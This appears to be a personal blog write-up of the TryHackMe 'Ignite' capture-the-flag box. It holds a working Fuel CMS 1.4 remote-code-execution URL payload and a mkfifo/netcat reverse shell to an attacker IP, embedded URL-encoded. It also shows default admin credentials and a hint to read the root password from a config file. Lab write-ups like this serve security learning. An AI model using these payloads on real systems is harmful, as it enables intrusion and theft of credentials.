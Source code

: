 ```yaml
---
layout: post
title:  "THM - Ignite"
date:   2020-07-19 06:00:00 +1000
category: hacking
---
```


## Introduction
*A new start-up has a few issues with their web server.*  

This is another easy rated box. Let's begin.

## Ports
nmap says we've got 80 (HTTP); I originally cancelled this scan about 60% in since it was running slowly. Later I ran it again in case there was something I'd missed, but no. So it's web all the way.

## Webserver
The front page of the website shows it is running a fresh install of Fuel CMS version 1.4 and even shows the default credentials are **admin:admin**.

Checking searchsploit, there is an RCE vulnerability in Fuel version 1.4.1, so that looks promising. There is no metasploit module, but a python (2) script. 

## Payload
The payload from the script is essentially:

``
/fuel/pages/select/?filter=%27%2bpi%28print%28%24a%3d%27system%27%29%29%2b%24a%28%27COMMAND_HERE%27%29%2b%27
``

Where the words COMMAND_HERE are replaced with the command you want to execute, such as pwd, whoami, ls etc.

## Shell
The [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) alternative netcat shell works fine, provided it is URL encoded (ctrl+u in Burp Suite).

So:

``
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1234 >/tmp/f
``

when URL encoded and inserted into the payload becomes

``
/fuel/pages/select/?filter=%27%2bpi%28print%28%24a%3d%27system%27%29%29%2b%24a%28%27rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.9.10.123+1234+>/tmp/f%27%29%2b%27
``

We start our listener and send this with Burp Repeater; we're in as www-data and can read the user flag.

## Root
I spent what felt like quite a bit of time looking for some vulnerability in the server, but ultimately I couldn't find one. That means we needs credentials - essentially the password for root.

Spoiler alert: This can be found in:
>www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php

Once you've got it, it's **su root** and that's it.

